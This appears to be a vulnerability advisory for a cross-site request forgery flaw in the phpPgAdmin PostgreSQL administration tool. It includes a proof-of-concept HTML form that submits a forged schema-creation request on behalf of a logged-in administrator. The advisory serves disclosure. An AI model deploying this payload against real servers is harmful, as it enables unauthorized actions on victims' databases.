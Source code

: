 # Overview

`phppgadmin/phppgadmin` is a web-based administration tool for PostgreSQL. It is perfect for PostgreSQL DB newbies and hosting services, this package is vulnerable to Cross-site Request Forgery (CSRF).

Multiple areas within the application allows sensitive actions to be performed without validating that the request originated from the application. One such area, `database.php`, does not verify the source of an HTTP request. This can be leveraged by a remote attacker to trick a logged-in administrator to visit a malicious page with a CSRF exploit and execute arbitrary system commands on the server.

# Proof of Concept

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localtest.me:9001/schemas.php" method="POST">
      <input type="hidden" name="formName" value="HACKED" />
      <input type="hidden" name="formAuth" value="mik317" />
      <input type="hidden" name="formComment" value="HACKED" />
      <input type="hidden" name="action" value="create" />
      <input type="hidden" name="database" value="test1" />
      <input type="hidden" name="server" value="&#58;5432&#58;allow" />
      <input type="hidden" name="database" value="test1" />
      <input type="hidden" name="create" value="Create" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
